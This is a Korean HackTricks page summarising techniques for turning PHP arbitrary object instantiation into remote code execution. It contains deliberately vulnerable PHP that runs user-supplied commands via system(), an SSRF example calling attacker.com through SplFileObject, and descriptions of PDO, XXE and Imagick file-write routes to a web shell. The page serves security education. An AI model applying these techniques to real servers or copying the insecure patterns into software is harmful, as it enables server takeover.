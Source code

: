 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 문서는 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

`new $_GET["a"]($_GET["a"])`와 같은 새로운 임의 객체의 생성은 원격 코드 실행(RCE)으로 이어질 수 있으며, 이는 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 자세히 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## 사용자 정의 클래스 또는 자동 로딩을 통한 RCE

`new $a($b)` 구문은 객체를 인스턴스화하는 데 사용되며, 여기서 **`$a`**는 클래스 이름을 나타내고 **`$b`**는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수는 GET/POST와 같은 사용자 입력에서 문자열 또는 배열로, 또는 JSON에서 다른 유형으로 나타날 수 있습니다.

아래의 코드 스니펫을 고려하십시오:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우, `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령어(예: `uname -a`)로 설정하면 해당 명령어가 실행됩니다.

**자동 로딩 함수**는 그러한 클래스에 직접 접근할 수 없는 경우 악용될 수 있습니다. 이러한 함수는 필요할 때 파일에서 클래스를 자동으로 로드하며, `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP 버전에 따라 자동 로딩의 동작이 달라지며, 다양한 RCE 가능성을 제공합니다.

## 내장 클래스에 의한 RCE

사용자 정의 클래스나 자동 로더가 부족한 경우, **내장 PHP 클래스**가 RCE에 충분할 수 있습니다. 이러한 클래스의 수는 PHP 버전과 확장에 따라 100에서 200 사이입니다. `get_declared_classes()`를 사용하여 나열할 수 있습니다.

관심 있는 생성자는 반사 API를 통해 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있습니다.

**특정 메서드를 통한 RCE에는 다음이 포함됩니다:**

### **SSRF + Phar 역직렬화**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하여, 모든 URL에 연결할 수 있습니다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하는 PHP 8.0 이전 버전에서 역직렬화 공격으로 이어질 수 있습니다.

### **PDO 악용하기**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있게 하여, 파일 생성 또는 기타 상호작용을 가능하게 합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 5.3.22 및 5.4.12 버전까지는 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다. 이는 libxml2의 버전에 따라 달라집니다.

## RCE via Imagick Extension

**프로젝트의 의존성** 분석에서 **Imagick**가 새로운 객체를 인스턴스화하여 **명령 실행**에 활용될 수 있음을 발견했습니다. 이는 취약점을 악용할 기회를 제공합니다.

### VID parser

파일 시스템의 지정된 경로에 콘텐츠를 쓸 수 있는 VID 파서 기능이 확인되었습니다. 이는 웹에서 접근 가능한 디렉토리에 PHP 쉘을 배치하여 원격 코드 실행(RCE)을 달성할 수 있습니다.

#### VID Parser + File Upload

PHP는 업로드된 파일을 `/tmp/phpXXXXXX`에 임시로 저장하는 것으로 알려져 있습니다. **msl** 프로토콜을 사용하는 Imagick의 VID 파서는 파일 경로에서 와일드카드를 처리할 수 있어 임시 파일을 선택한 위치로 전송할 수 있습니다. 이 방법은 파일 시스템 내에서 임의의 파일 작성을 달성하는 추가적인 접근 방식을 제공합니다.

### PHP Crash + Brute Force

[**원본 작성물**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제 전에 서버 충돌을 유발하는 파일을 업로드하는 것입니다. 임시 파일의 이름을 무작위로 시도함으로써 Imagick가 임의의 PHP 코드를 실행할 수 있게 됩니다. 그러나 이 기술은 구버전의 ImageMagick에서만 효과적인 것으로 나타났습니다.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
